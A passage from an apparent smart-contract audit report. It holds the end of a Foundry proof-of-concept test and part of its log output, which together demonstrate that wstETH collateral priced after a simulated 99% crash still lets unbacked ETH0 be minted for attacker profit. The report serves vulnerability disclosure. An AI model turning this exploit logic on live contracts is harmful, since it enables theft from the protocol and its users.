 ```solidity
        console.log("=== FINANCIAL IMPACT ===");
        console.log("Fair value of wstETH spent: $", fairValueWstEth / 1e18);
        console.log("Value of ETH0 received: $", actualValueEth0 / 1e18);
        console.log("Attacker's profit: $", attackerProfit / 1e18);
        console.log("Protocol's loss: $", attackerProfit / 1e18);
        
        // Calculate effective exchange rate
        uint256 effectiveRate = (eth0Gained * 1e18) / wstEthSpent;
        console.log("Effective exchange rate:", effectiveRate / 1e18, "ETH0 per wstETH");
        console.log("Should be 3000 ETH0 per wstETH at fair price");
        
        console.log("");
        console.log("=== VULNERABILITY CONFIRMED ===");
        console.log("Strict depeg threshold (5%) failed to prevent non-stablecoin exploit");
        console.log("Protocol accepts severely under-valued wstETH as collateral");
        console.log("ETH0 tokens minted without proper backing");
        console.log("Core protocol invariant violated");

        // Verify the exploit worked as expected
        assertEq(eth0Gained, expectedEth0Output, "ETH0 output should match expected amount");
        assertEq(wstEthSpent, amountToDepositWstEth, "wstETH spent should match deposit amount");
        
        // Verify significant under-collateralization occurred
        assertTrue(attackerProfit > 0, "Attacker should have gained significant value");
        assertTrue(fairValueWstEth > actualValueEth0 * 10, "Protocol should be severely under-collateralized");
    }
}

```

## Output and Explanation

When running the command: `forge test --match-test testPocNonStablecoinDepegExploit -vv`

Log output will show:
```bash
[⠆] Compiling...
[⠊] Compiling 1 files with Solc 0.8.20
[⠢] Solc 0.8.20 finished in 120.94s
Compiler run successful!

Ran 1 test for test/poc/PocPermissiveOracleDepeg.t.sol:PocPermissiveOracleDepeg
[PASS] testPocNonStablecoinDepegExploit() (gas: 274362)
Logs:
  
=== PoC: Non-Stablecoin (wstETH) Price Crash Exploit ===
  Description: Demonstrates that strict depeg thresholds don't protect non-stablecoins
  Impact: Attackers can exploit crashed non-stablecoin prices even with strict thresholds
  
  --- Phase 1: Verify Strict Depeg Threshold Setup ---
  Current depeg threshold: 500 bps (5%)
  Note: This threshold only applies to stablecoins, NOT wstETH
   Strict threshold verified
  
  --- Phase 2: Simulate wstETH Price Crash ---
  Initial wstETH price: $ 3000
  Simulating extreme wstETH price crash: $3000 -> $30 (99% decrease)
  New wstETH price after crash: $ 30
  Price crash magnitude: 99 % decrease
   Price crash simulated successfully
  
  --- Phase 3: Oracle Verification (Critical Vulnerability) ---
```